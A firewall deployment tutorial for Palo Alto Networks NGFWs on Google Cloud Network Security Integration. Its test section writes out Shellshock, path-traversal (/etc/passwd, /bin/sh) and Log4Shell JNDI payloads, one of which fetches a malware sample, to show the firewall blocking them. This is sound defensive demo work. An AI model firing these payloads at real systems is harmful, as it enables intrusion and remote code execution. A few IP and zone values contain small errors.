



# Software NGFW with Network Security Integration

This tutorial shows how to deploy Palo Alto Networks Software Firewalls in Google Cloud, utilizing either the *[in-band](https://docs.cloud.google.com/network-security-integration/docs/in-band/in-band-integration-overview)* or *[out-of-band](https://docs.cloud.google.com/network-security-integration/docs/out-of-band/out-of-band-integration-overview)* deployment model within the [Network Security Integration]([https://cloud.google.com/network-security-integration/docs/nsi-overview](https://docs.cloud.google.com/network-security-integration/docs/nsi-overview) (NSI).  NSI enables you to gain  visibility and security for your VPC network traffic, without requiring any changes to your network infrastructure.  

The functionality of each model is summarized as follows:

| Model           | Description             |
| --------------- | ----------------------- |
| **Out-of-Band** | Uses packet mirroring to forward a copy of network traffic to Software Firewalls for *out-of-band* inspection. Traffic is mirrored to your software firewalls by creating mirroring rules within your network firewall policy. |
| **In-Band**     | Uses packet intercept to steer network traffic to Software Firewalls for *in-line* inspection. Traffic is steered to your software firewalls by creating firewall rules within your network firewall policy. |

This tutorial is intended for network administrators, solution architects, and security professionals who are familiar with [Compute Engine](https://cloud.google.com/compute) and [Virtual Private Cloud (VPC) networking](https://cloud.google.com/vpc).

> [!CAUTION] 
> This guide uses the *in-band* model, which is in private preview and must be enabled for your Google account. If you require passive inspection, steps for the *out-of-band* model are included where necessary. 

<br>

## Architecture

NSI follows a *producer-consumer* model, where the *consumer* consumes services provided by the *producer*. The *producer* contains the cloud infrastructure responsible for inspecting network traffic, while the *consumer* environment contains the cloud resources that require inspection.


### Producer Components

The producer creates firewalls which serve as the backend service for an internal load balancer. For each zone requiring traffic inspection, the producer creates a forwarding rule, and links it to an *intercept* or *mirroring* *deployment* which is a zone-based resource. These are consolidated into an *deployment group*, which is then made accessible to the consumer.

| Component | Description |
| :---- | :---- |
| [Load Balancer](https://cloud.google.com/network-security-integration/docs/out-of-band/configure-producer-service#create-int-lb-pm) | An internal network load balancer that distributes traffic to the NGFWs. |
| [Deployments](https://cloud.google.com/network-security-integration/docs/out-of-band/deployments-overview) | A zonal resource that acts as a backend of the load balancer, providing network inspection on traffic from the consumer. |
| [Deployment Group](https://cloud.google.com/network-security-integration/docs/out-of-band/deployment-groups-overview) | A collection of intercept or mirroring deployments that are set up across multiple zones within the same project.  It represents the firewalls as a service that consumers reference. |
| [Instance Group](https://cloud.google.com/compute/docs/instance-groups) | A managed or unmanaged instance group that contains the firewalls which enable horizontal scaling. |


#### Zone Affinity Considerations

The internal load balancer lacks zone-based affinity support. Therefore, consider the following architectures for your firewall deployment:

* **Zone-Based**: Ensures traffic is inspected by a firewall in the same zone as the consumer's source zone.
* **Cross-Zone**: Allows traffic to be inspected by any firewall within the same region as the traffic's source.

<table>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="2" align="left">Zone-Based Deployment</th>
  </tr>
  <tr>
    <td width="35%"></td>
    <td width="65%">
      <ol>
        <li>Deploy the firewalls to a zone instance group corresponding to the source zone of the consumer.</li>
        <li>Add the instance group to a backend service.</li>
        <li>Create a forwarding rule targeting the backend service.</li>
        <li>Link the forwarding rule to an intercept/mirroring deployment that matches the zone you are inspecting.</li>
        <li>Add the deployment to a deployment group.</li>
        <li><b>Repeat steps 1-5</b> for each zone requiring inspection.</li>
      </ol>
    </td>
  </tr>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="2" align="left">Cross-Zone Deployment</th>
  </tr>
  <tr>
    <td width="35%"></td>
    <td width="65%">
      <ol>
        <li>Deploy the firewalls to a regional instance group matching the source region of the consumer.</li>
        <li>Add the instance group to a backend service.</li>
        <li>Create a forwarding rule targeting the backend service.</li>
        <li>Link the forwarding rule to an intercept/mirroring deployment matching the zone you wish to inspect.</li>
        <li>Add the deployment to the deployment group.</li>
        <li><b>Repeat steps 3-5</b> for each zone requiring inspection.</li>
      </ol>
    </td>
  </tr>
</table>

<br>

### Consumer Components

The consumer creates an *intercept* or *mirroring* *endpoint group* corresponding to the producer's *deployment group*. Then, the consumer associates the endpoint group with VPC networks requiring inspection. 

Finally, the consumer creates a network firewall policy with rules that use a *security profile group* as their action.  Traffic matching these rules is intercepted or mirrored to the producer for inspection.

| Component | Description |
| :---- | :---- |
| [Endpoint Group](https://cloud.google.com/network-security-integration/docs/out-of-band/endpoint-groups-overview) | A project-level resource that directly corresponds to a producer's deployment group. This group can be associated with multiple VPC networks. |
| [Endpoint Group Association](https://cloud.google.com/network-security-integration/docs/out-of-band/configure-mirroring-endpoint-group-associations) | Associates the endpoint group to consumer VPCs. |
| [Firewall Rules](https://cloud.google.com/firewall/docs/network-firewall-policies) | Exists within Network Firewall Policies and select traffic to be intercepted or mirrored for inspection by the producer. |
| [Security Profiles](https://cloud.google.com/network-security-integration/docs/security-profiles-overview) | Can be type `intercept` or `mirroring` and are set as the action within firewall rules. |

<br>

### Traffic Flow Example

The network firewall policy associated with the `consumer-vpc` contains two rules, each specifying a security profile group as their action. When traffic matches either rule, the traffic is encapsulated to the producer for inspection. 

<table>
  <tr>
    <!-- Title cell with left alignment -->
    <th colspan="5" align="center">Network Firewall Policy</th>
  </tr>
    <tr>
        <th>PRIORITY</th>
        <th>DIRECTION</th>
        <th>SOURCE</th>
        <th>DESTINATION</th>
        <th>ACTION</th>
    </tr>
    <tr>
        <td><code>10</code></td>
        <td><code>Egress</code></td>
        <td><code>10.0.0.0/8</code></td>
        <td><code>0.0.0.0/0</code></td>
        <td><code>apply-security-profile</code></td>
    </tr>
    <tr>
        <td><code>11</code></td>
        <td><code>Ingress</code></td>
        <td><code>0.0.0.0/0</code></td>
        <td><code>10.0.0.0/8</code></td>
        <td><code>apply-security-profile</code></td>
    </tr>
</table>

> [!NOTE]
> In the *out-of-band* model, traffic would be mirrored to the firewalls instead of redirected.  


#### Traffic to Producer


1. The `web-vm` makes a request to the internet. The request is evaluated against the rules within the Network Firewall Policy associated with the `consumer-vpc`.
2. The request matches the `EGRESS` rule (priority: `10`) that specifies a security profile group as its action.
3. The request is then encapsulated through the `endpoint association` to the producer environment.
4. Within the producer environment, the `intercept deployment group` directs traffic to the `intercept deployment` located in the same zone as the `web-vm`.
5. The internal load balancer forwards the traffic to an available firewall for deep packet inspection.

#### Traffic from Producer


1. If the firewall permits the traffic, it is returned to the `web-vm` via the consumer's `endpoint association`.
2. The local route table of the `consumer-vpc` routes traffic to the internet via the Cloud NAT.
3. The session is established with the internet destination and is continuously monitored by the firewall. 

---

<br>

## Requirements

> [!WARNING] 
> The *in-band* model is currently in private preview and must be enabled for your Google Cloud account. 

1. A Google Cloud project.
2. Access to [Cloud Shell](https://shell.cloud.google.com). 
3. The following IAM Roles:

    | Ability | Scope | Roles |
    | :---- | :---- | :---- |
    | Create [firewall endpoints](https://cloud.google.com/firewall/docs/about-firewall-endpoints#iam-roles), [endpoint associations](https://cloud.google.com/firewall/docs/about-firewall-endpoints#endpoint-association), [security profiles](https://cloud.google.com/firewall/docs/about-security-profiles#iam-roles), and [network firewall policies](https://cloud.google.com/firewall/docs/network-firewall-policies#iam). | Organization | `compute.networkAdmin`<br>`compute.networkUser`<br>`compute.networkViewer` |
    | Create [global network firewall policies](https://cloud.google.com/firewall/docs/use-network-firewall-policies#expandable-1) and [firewall rules](https://cloud.google.com/firewall/docs/use-network-firewall-policies#expandable-8) for VPC networks. | Project | `compute.securityAdmin`<br>`compute.networkAdmin`<br>`compute.networkViewer`<br>`compute.viewer`<br>`compute.instanceAdmin` |


<br>

## Create Producer Environment
In the `producer` directory, use the terraform plan to create the producer's VPCs, instance template, instance group, internal load balancer, intercept deployment, and intercept deployment group. 

> [!TIP]
> In production environments, it is recommended to deploy the producer resources to a dedicated project.  This ensures the security services are managed independently of the consumer.

1. In [Cloud Shell](https://shell.cloud.google.com), clone the repository change to the `producer` directory. 

    ```
    git clone https://github.com/PaloAltoNetworks/google-cloud-nsi-tutorial
    cd google-cloud-nsi-tutorial/producer
    ```

2. Create a `terraform.tfvars`.

    ```
    cp terraform.tfvars.example terraform.tfvars
    ```

3. Edit `terraform.tfvars` by setting values for the following variables:  
   
    | Key | Value | Default |
    | :---- | :---- | :---- |
    | `project_id` | The Google Cloud project ID of the producer environment. | `null` |
    | `mgmt_allow_ips` | A list of IPv4 addresses which have access to the firewall's mgmt interface. | `["0.0.0.0/0"]` |
    | `mgmt_public_ip` | If true, the management address will have a public IP assigned to it. | `true` | 
    | `region` | The region to deploy the consumer resources. | `us-west1` |
    | `image_name` | The firewall image to deploy. | `vmseries-flex-bundle2-1126`|


> [!CAUTION]
> It is recommended to set `mgmt_public_ip` to `false` in production environments.

> [!TIP]
> For `image_name`, a full list of public images can be found with this command:
> ```
> gcloud compute images list --project paloaltonetworksgcp-public --no-standard-images
> ```
> All NSI deployments require PAN-OS 11.2.x or greater.

> [!NOTE]
> If you are using BYOL image (i.e.  <code>vmseries-flex-<b>byol</b>-*</code>), the license can be applied during or after deployment.  To license during deployment, add your authcode to `bootstrap_files/authcodes`.  See [Bootstrap Methods](https://docs.paloaltonetworks.com/vm-series/11-1/vm-series-deployment/bootstrap-the-vm-series-firewall) for more information.  


4. Initialize and apply the terraform plan.

    ```
    terraform init
    terraform apply
    ```

    Enter `yes` to apply the plan.

5. After the apply completes, terraform displays the following message:

    <pre>
    export <b>PRODUCER_PROJECT</b>=<i>your-project-id</i>
    export <b>DATA_VPC</b>=<i>data</i>
    export <b>DATA_SUBNET</b>=<i>us-west1-data</i>
    export <b>REGION</b>=<i>us-west1</i>
    export <b>ZONE</b>=<i>us-west1-a</i>
    export <b>BACKEND_SERVICE</b>=<i>https://www.googleapis.com/compute/v1/projects/your-project-id/regions/us-west1/backendServices/panw-lb</i></pre>

7. **Copy-and-paste** the `ENVIRONMENT_VARIABLES` output into Cloud Shell to set environment variables.

> [!IMPORTANT] 
> The `init-cfg.txt` includes `plugin-op-commands=geneve-inspect:enable` bootstrap parameter, allowing firewalls to handle GENEVE encapsulated traffic forwarded via packet intercept. 
> If this is not configured, packet intercept traffic will be dropped. 

<br>

### Create Intercept Deployment & Deployment Group

Create an intercept deployment for the zone you wish to inspect traffic (`$ZONE`). and add it to an intercept deployment group.

1. ***Out-of-Band Deployment Only:*** Go to [Create Mirroring Deployment & Deployment Group](docs/oob_producer.md#create-mirroing-deployment--deployment-group).

2. Create an intercept deployment group (`panw-dg`) within the firewall’s `data-vpc`.

    ```
    gcloud network-security intercept-deployment-groups create panw-dg \
        --location global \
        --project $PRODUCER_PROJECT \
        --network $DATA_VPC \
        --no-async
    ```

3. Create a forwarding rule (`panw-lb-rule-$ZONE`) for the internal load balancer.

    ```
    gcloud compute forwarding-rules create panw-lb-rule-$ZONE \
        --load-balancing-scheme=INTERNAL \
        --ip-protocol=UDP \
        --ports=6081 \
        --backend-service=$BACKEND_SERVICE \
        --subnet=$DATA_SUBNET \
        --region=$REGION \
        --project=$PRODUCER_PROJECT
    ```

4. Create an intercept deployment (`panw-deployment-$ZONE`) by associating it with your forwarding rule.

    ```
    gcloud network-security intercept-deployments create panw-deployment-$ZONE \
        --location $ZONE \
        --forwarding-rule panw-lb-rule-$ZONE \
        --forwarding-rule-location $REGION \
        --intercept-deployment-group projects/$PRODUCER_PROJECT/locations/global/interceptDeploymentGroups/panw-dg \
        --no-async
    ```

> [!TIP]
> In this tutorial, all of the consumer resources are in one zone, requiring only one intercept deployment. For multiple zones, repeat steps **3-4** for each zone requiring inspection. 

<br>

### Configure Firewall

Access the firewall's CLI and enable Geneve encapsulation.  Then, apply a baseline configuration to the firewall to pass the load balancer's health checks and to allow traffic from the consumer networks.

> [!IMPORTANT]
> For this tutorial, the firewalls are bootstrapped only with a threat update to enable threat inspection. For production environments, all  steps below can be fully automated via [bootstrapping](https://docs.paloaltonetworks.com/vm-series/11-1/vm-series-deployment/bootstrap-the-vm-series-firewall/prepare-the-bootstrap-package) to simplify management.

<br>

#### Access the Firewall

1. In Cloud Shell, set the firewall’s name and zone to environment variables (`FW_NAME` and `FW_ZONE`).

    ```
    read FW_NAME FW_ZONE <<< $(gcloud compute instances list \
        --filter="tags.items=panw-tutorial" \
        --format="value(name, zone)")
    ```

2. SSH to the firewall.

    ```
    gcloud compute ssh admin@$FW_NAME --zone=$FW_ZONE
    ```

> [!WARNING]
> After applying the terraform plan, it can take ~10 minutes for the firewall to become available. 

<br>

#### Apply Baseline Configuration
Configure the firewall to pass the load balancer's health checks and to allow traffic from the `consumer-vpc`.

1. After the reboot, [access the firewall](#access-the-firewall) again and enter configuration mode. 

    ```
    configure
    ```

2. Set a password for the `admin` user.

    ```
    set mgt-config users admin password
    ```

3. Set `ethernet1/1` as a DHCP interface, assign it to the `data` zone, and set its virtual router to `default`.

    ```
    set network interface ethernet ethernet1/1 layer3 dhcp-client enable yes
    set network virtual-router default interface ethernet1/1
    set zone data network layer3 ethernet1/1
    ```

4. Create a management profile (`gcp-lb-profile`) allowing HTTPS from the load balancer's [health check ranges](https://cloud.google.com/load-balancing/docs/health-check-concepts#ip-ranges).

    ```
    set network profiles interface-management-profile gcp-lb-profile https yes
    set network profiles interface-management-profile gcp-lb-profile permitted-ip 35.191.0.0/16
    set network profiles interface-management-profile gcp-lb-profile permitted-ip 130.211.0.0/22
    set network profiles interface-management-profile gcp-lb-profile permitted-ip 209.85.152.0/22
    set network profiles interface-management-profile gcp-lb-profile permitted-ip 209.85.204.0/22
    ```

5. Create a static address group (`gcp-lb-check-ips`) containing the load balancer health check ranges. 

    ```
    ​​set address gcp-lb-check-ip-1 ip-netmask 35.191.0.0/16
    set address gcp-lb-check-ip-2 ip-netmask 120.211.0.0/22
    set address gcp-lb-check-ip-3 ip-netmask 209.85.152.0/22
    set address gcp-lb-check-ip-4 ip-netmask 209.85.204.0/22
    set address-group gcp-lb-check-ips static [ gcp-lb-check-ip-1 gcp-lb-check-ip-2 gcp-lb-check-ip-3 gcp-lb-check-ip-4 ]
    ```

6. Create an address group (`gcp-lb-fwd-rules`) to contain the IP addresses for each forwarding rule. 

    ```
    set address-group gcp-lb-fwd-rules
    ```

7. Create a security policy (`gcp-lb-check-allow`) allowing the health check CIDRs to reach the loopback interfaces using SSL. 

    ```
    set rulebase security rules gcp-lb-check-allow from any to any 
    set rulebase security rules gcp-lb-check-allow source gcp-lb-check-ips
    set rulebase security rules gcp-lb-check-allow destination gcp-lb-fwd-rules
    set rulebase security rules gcp-lb-check-allow application ssl 
    set rulebase security rules gcp-lb-check-allow service application-default
    set rulebase security rules gcp-lb-check-allow action allow
    ```

8. Create a security policy to allow workload traffic from the `consumer-vpc`.

    ```
    set rulebase security rules data-allow from data to data 
    set rulebase security rules data-allow source any
    set rulebase security rules data-allow destination any
    set rulebase security rules data-allow application any 
    set rulebase security rules data-allow service any
    set rulebase security rules data-allow action allow
    set rulebase security rules data-allow profile-setting profiles virus default
    set rulebase security rules data-allow profile-setting profiles spyware default
    set rulebase security rules data-allow profile-setting profiles vulnerability default
    ```

> [!CAUTION]  
> This policy allows all traffic and should not be used within production environments.

<br>


#### Configure Health Checks

1. In Cloud Shell, retrieve the IP address of the forwarding rule assigned to the load balancer. 

    ```
    gcloud compute forwarding-rules list
    ```

    (output)
    <pre>
    NAME                     REGION    IP_ADDRESS  IP_PROTOCOL  TARGET
    panw-lb-rule-us-west1-a  us-west1  <b>10.0.1.3</b>    UDP          us-west1/panw-lb</pre>

2. Create an address object for the forwarding rule.
    <pre><code>set address <b>gcp-lb-fwd-rule-1</b> ip-netmask <b>10.0.1.3/32</b></code></pre>

3. Configure a loopback interface using the forwarding rule address.

    ```
    set address-group gcp-lb-fwd-rules static [ gcp-lb-fwd-rule-1 ]
    set network interface loopback units loopback.1 ip gcp-lb-fwd-rule-1
    set network virtual-router default interface loopback.1
    set zone gcp-lb-check network layer3 loopback.1
    set network interface loopback units loopback.1 interface-management-profile gcp-lb-profile
    ```

4. Commit the changes.

    ```
    commit
    ```

5. Enter `exit` twice to close the session with the firewall.

> [!TIP]
> For multi-zone deployments, repeat steps **2-3** by assigning a loopback interface to each new forwarding rule. 

<br>

#### Verify Health Checks

1. In Cloud Shell, retrieve the health status of the load balancer’s forwarding rules. 

    ```
    gcloud compute backend-services get-health panw-lb \
        --region=$REGION \
        --format="json(status.healthStatus[].forwardingRuleIp,status.healthStatus[].healthState)"
    ```

    (output)

    <pre>
    {
    "forwardingRuleIp": "10.0.1.3",
    "healthState": "HEALTHY"
    }</pre>


2. Retrieve the firewall’s management address.

    ```
    gcloud compute instances list \
        --filter='tags.items=(panw-tutorial)' \
        --format='table[box,title="Firewall MGMT"](networkInterfaces[0].accessConfigs[0].natIP:label=EXTERNAL_IP, networkInterfaces[0].networkIP:label=INTERNAL_IP)'
    ```

3. Access the firewall’s web interface using the management address.

    <pre>
    https://<b><i>MGMT_ADDRESS</i></b></pre>

---

<br>

## Create Consumer Environment

In the `consumer` directory, use the terraform plan to create a consumer environment. The terraform plan creates a VPC (`consumer-vpc`) , two debian VMs (`client-vm` & `web-vm`), and a GKE cluster (`cluster1`).

> [!NOTE]
> If you already have an existing consumer environment, skip to [Create Intercept Endpoint Group](#create-intercept-endpoint--endpoint-group).

1. In Cloud Shell, change to the `consumer` directory.

    ```
    cd
    cd google-cloud-nsi-tutorial/consumer
    ```

2. Create a `terraform.tfvars`

    ```
    cp terraform.tfvars.example terraform.tfvars
    ```

3. Edit `terraform.tfvars` by setting values for the following variables:  
   

    | Variable | Description | Default |
    | :---- | :---- | :---- |
    | `project_id` | The project ID of the consumer environment. | `null` |
    | `mgmt_allowed_ips` | A list of IPv4 addresses that can access the VMs on `TCP:80,22`. | `["0.0.0.0/0"]` |
    | `region` | The region to deploy the consumer resources. | `us-west1` |


4. Initialize and apply the terraform plan.

    ```
    terraform init
    terraform apply
    ```

    Enter `yes` to apply the plan.

5. After the apply completes, terraform displays the following message:

    <pre>
    export <b>CONSUMER_PROJECT</b>=<i>your-project-id</i>
    export <b>CONSUMER_VPC</b>=<i>consumer-vpc</i>
    export <b>REGION</b>=<i>us-west1</i>
    export <b>ZONE</b>=<i>s-west1-a</i>
    export <b>CLIENT_VM</b>=<i>client-vm</i>
    export <b>CLUSTER</b>=<i>cluster1</i>
    export <b>ORG_ID</b>=<i>$(gcloud projects describe your-project-id --format=json | jq -r '.parent.id')</i></pre>

7. **Copy-and-paste** the `ENVIRONMENT_VARIABLES` output into Cloud Shell to set environment variables.

<br>

### Create Intercept Endpoint & Endpoint Group

Create an intercept *endpoint* and *endpoint group* and associate it with the producer's intercept *deployment group*.  Then, connect the *endpoint group* to the `consumer-vpc` via an endpoint group association. 

1. ***Out-of-Band Deployment Only:*** Go to [Create Mirroring Endpoint & Endpoint Group](docs/oob_consumer.md#create-mirroring-endpoint--endpoint-group).

2. Create an intercept endpoint group (`pan-epg`) referencing the producer's deployment group (`pan-dg`).

    ```
    gcloud network-security intercept-endpoint-groups create panw-epg \
        --intercept-deployment-group panw-dg \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async
    ```

3. Associate the intercept endpoint group with your consumer’s VPC network.

    ```
    gcloud network-security intercept-endpoint-group-associations create panw-epg-assoc \
        --intercept-endpoint-group panw-epg \
        --network $CONSUMER_VPC \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async
    ```

<br>

### Create Firewall Rules

Create a `custom-intercept` security profile group, configure a network firewall policy with rules that use this group as the `ACTION`, and finally, associate the network firewall policy with your `consumer-vpc` network. 

1. Create `custom-intercept` security profile (`pan-sp`) referencing the intercept endpoint group (`panw-epg`).  

    ```
gcloud network-security security-profiles custom-intercept create panw-sp \
    --intercept-endpoint-group panw-epg \
    --billing-project $CONSUMER_PROJECT \
    --organization $ORG_ID \
    --location global
    ```

2. Add the security profile to a security profile group (`pan-spg`).

    ```
    gcloud network-security security-profile-groups create panw-spg \
        --custom-intercept-profile panw-sp \
        --billing-project $CONSUMER_PROJECT \
        --organization $ORG_ID \
        --location global
    ```

3. Create a network firewall policy (`consumer-policy`).  
   
    ```
    gcloud compute network-firewall-policies create consumer-policy \
        --project $CONSUMER_PROJECT \
        --global
    ```

4. Within the network firewall policy, create two firewall rules to intercept all `INGRESS` and `EGRESS` traffic by setting the security profile group as the action within each rule.  
   
    ```
    gcloud compute network-firewall-policies rules create 10 \
        --project $CONSUMER_PROJECT \
        --action apply_security_profile_group \
        --firewall-policy consumer-policy \
        --global-firewall-policy \
        --layer4-configs all \
        --src-ip-ranges 0.0.0.0/0 \
        --dest-ip-ranges 0.0.0.0/0 \
        --direction INGRESS  \
        --security-profile-group organizations/$ORG_ID/locations/global/securityProfileGroups/panw-spg

    gcloud compute network-firewall-policies rules create 11 \
        --project $CONSUMER_PROJECT \
        --action apply_security_profile_group \
        --firewall-policy consumer-policy \
        --global-firewall-policy \
        --layer4-configs all \
        --src-ip-ranges 0.0.0.0/0 \
        --dest-ip-ranges 0.0.0.0/0 \
        --direction EGRESS \
        --security-profile-group organizations/$ORG_ID/locations/global/securityProfileGroups/panw-spg
    ```

5. Associate the network firewall policy to the `consumer-vpc` network.  
   
    ```
    gcloud compute network-firewall-policies associations create \
        --name consumer-policy-assoc \
        --global-firewall-policy \
        --firewall-policy consumer-policy \
        --network $CONSUMER_VPC \
        --project $CONSUMER_PROJECT
    ```

> [!CAUTION]
> Once the policy is associated with the VPC, traffic matching the firewall rules will be intercepted to the producer for inspection.

---

<br>

## Test Inspection

Test inspection by generating pseudo-malicious traffic between VMs and also between VMs and the internet.  Then, generate pseudo-malicious traffic within the GKE cluster (`cluster1`) to test pod-to-pod inspection.

### GCE Inspection
Simulate pseudo-malicious traffic for both east-west and north-south traffic flows.

1. In Cloud Shell, remotely generate pseudo-malicious traffic on the `client-vm` to simulate malicious traffic to the `web-vm` (east/west) and to the `internet` (north/south).

    ```
    gcloud compute ssh $CLIENT_VM \
        --zone $ZONE \
        --tunnel-through-iap \
        --command="bash -s" << 'EOF'
    curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh --data "echo Content-Type: text/plain; echo; uname -a" --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" http://www.eicar.org/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" http://10.1.0.20/cgi-bin/user.sh -H "FakeHeader:() { :; }; echo Content-Type: text/html; echo ; /bin/uname -a" --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" http://10.1.0.20/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd --max-time 2
    curl -s -o /dev/null -w "%{http_code}\n" nmap -A 10.1.0.20
    EOF
    ```

    (output)
    
    <pre>
    <b>000
    000 
    000
    000
    000</b></pre>

    > The `000` response codes indicate that the traffic was blocked by the producer. 
    > The *out-of-band* deployment will not produce `000` response codes since it is only monitoring the traffic.


2. On the firewall, go to **Monitor → Threat** to confirm the firewall prevented the north/south and east/west threats generated by the `client-vm` .

    

<br>


### GKE Inspection

Pod-to-pod traffic within a cluster can also be inspected by the firewalls using NSI.  To do this, the GKE cluster must have  [intranode visibility](https://cloud.google.com/kubernetes-engine/docs/how-to/intranode-visibility) enabled.  This feature ensures traffic between pods on the same GKE node can be inspected by the firewalls.

> [!CAUTION]
> Do not apply the demo.yaml in *any* real environment.

1. In Cloud Shell, authenticate to the GKE cluster (`cluster1`).  

    ```
    gcloud container clusters get-credentials cluster1 --zone $ZONE
    ```

2. Deploy a `victim` and `attacker` pod.

    ```
    kubectl apply -f https://raw.githubusercontent.com/PaloAltoNetworks/google-cloud-nsi-tutorial/main/consumer/yaml/demo.yaml
    ```

3. Create and output two environment variables containing the IPs of the `victim` and `attacker` pods.

    ```
    export VICTIM_IP=$(kubectl get pod victim --template '{{.status.podIP}}')
    export ATTACK_IP=$(kubectl get pod attacker --template '{{.status.podIP}}')
    sleep 3
    echo ""
    echo VICTIM IP: $VICTIM_IP
    echo ATTACK IP: $ATTACK_IP
    ```
    > Record the pod IP addresses to reference later.

4. Attempt to exploit the vulnerability on the `victim` pod.

    ```
    kubectl exec -it attacker -- curl $VICTIM_IP:8080 -H 'X-Api-Version: ${jndi:ldap://attacker-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}' --max-time 2
    ```

    (output)

    <pre><b>curl: (28) Operation timed out after 2000 milliseconds with 0 bytes received</b></pre>

    > The `time out` response indicates the producer blocked the connection. 
    > The *out-of-band* deployment produces a `Hello, World!` output since it is only monitoring the traffic for threats.


6. Delete the `victim` and `attacker` pods.

    ```
    kubectl delete -f https://raw.githubusercontent.com/PaloAltoNetworks/google-cloud-nsi-tutorial/main/consumer/yaml/demo.yaml
    ```

6. On the firewall, go to **Monitor → Threat** to view the threat between the `attacker` and `victim` pods (both pods fall within the `10.20.0.0/16` space)  

    

> [!NOTE]
> The traffic logs should now be sourced from the pod CIDR `10.20.0.0/16` rather than the node range.  This capability gives you the necessary context to begin applying security policy at the pod level where you can leverage the Kubernetes plugin for additional automation enforcement. 

---

<br>

## Delete Resources

### Delete Consumer Resources

1. ***Out-of-Band Deployment Only:*** Go to [Out-of-Band: Delete Consumer Resources](docs/oob_consumer.md#delete-consumer-resources).

2. Delete the intercept security profile, firewall policy, endpoint, & endpoint association. 

    ```
    gcloud compute network-firewall-policies associations delete \
        --project=$CONSUMER_PROJECT \
        --name=consumer-policy-assoc \
        --firewall-policy=consumer-policy \
        --global-firewall-policy

    gcloud compute network-firewall-policies delete consumer-policy \
        --project=$CONSUMER_PROJECT \
        --global

    gcloud network-security security-profile-groups delete panw-spg \
        --organization $ORG_ID \
        --location=global \
        --quiet

    gcloud network-security security-profiles custom-intercept delete panw-sp \
        --organization $ORG_ID \
        --location=global \
        --quiet

    gcloud network-security intercept-endpoint-group-associations delete panw-epg-assoc \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async

    gcloud network-security intercept-endpoint-groups delete panw-epg \
        --project $CONSUMER_PROJECT \
        --location global \
        --no-async
    ```

4. Run `terraform destroy` from the `consumer` directory.

    ```
    cd
    cd google-cloud-nsi-tutorial/consumer
    terraform destroy
    ```

5. Enter `yes` to delete all consumer resources.
 
<br>

### Delete Producer Resources

1. ***Out-of-Band Deployment Only:*** Go to [Out-of-Band: Delete Producer Resources](docs/oob_producer.md#delete-producer-resources).

2. Delete the intercept deployment, forwarding rule, and intercept deployment group.

    ```
    gcloud network-security intercept-deployments delete panw-deployment-$ZONE \
